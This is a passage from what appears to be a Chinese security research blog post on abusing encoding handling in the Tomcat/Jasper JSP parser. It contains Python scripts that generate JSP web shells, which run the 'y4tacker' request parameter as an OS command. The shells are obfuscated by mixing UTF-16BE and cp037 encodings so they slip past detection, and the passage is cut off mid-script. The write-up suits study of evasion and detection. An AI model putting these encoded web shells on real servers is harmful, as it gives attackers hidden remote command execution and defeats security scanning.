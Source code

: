 因此从这里我们可以看出`<jsp:directive.`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

[![](https://storage.tttang.com/media/attachment/2022/11/23/e5869b44-7d86-4c49-80ed-5dfe89babf76.png)
](https://storage.tttang.com/media/attachment/2022/11/23/e5869b44-7d86-4c49-80ed-5dfe89babf76.png)

测试demo

`a0 = '''<%
 Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
 java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
 String line = "'''
a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a2 = '''";
 while ((line = input.readLine()) != null) {
 out.write(line+"\\n");
 }
%>'''
with open("test2.jsp","wb") as f:
    f.write(a0.encode("utf-16be"))
    f.write(a1.encode("utf-8"))
    f.write(a2.encode("utf-16be"))` 

成功利用  
[![](https://storage.tttang.com/media/attachment/2022/11/23/ef43d678-ac48-4a81-a629-4b1024ee80a5.png)
](https://storage.tttang.com/media/attachment/2022/11/23/ef43d678-ac48-4a81-a629-4b1024ee80a5.png)

#### [三重编码](#toc__6)

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`<jsp:directive.`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

`JspReader jspReader = null;
try {
  jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);
} catch (FileNotFoundException ex) {
  throw new JasperException(ex);
}` 

聪明的你一定能看出这里的`sourceEnc`是我们可以控制的(前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

1.  保证无法通过BOM识别出文本内容编码(保证isBomPresent为false)
2.  通过`<?xml encoding='xxx'`可以控制`sourceEnc`的值
3.  将标签`<jsp:directive.`或`<%@`放置在全文任意位置但不影响代码解析
4.  通过标签`<jsp:directive.`或`<%@`的`pageEncoding`属性再次更改文本内容编码

这里我按要求随便写了一个符合的例子

`a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''<%
 Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
 java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
 String line = "'''
a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a3 = '''";
 while ((line = input.readLine()) != null) {
 out.write(line+"\\n");
 }
%>'''
with open("test3.jsp","wb") as f:
    f.write(a0.encode("utf-8"))
    f.write(a1.encode("utf-16be"))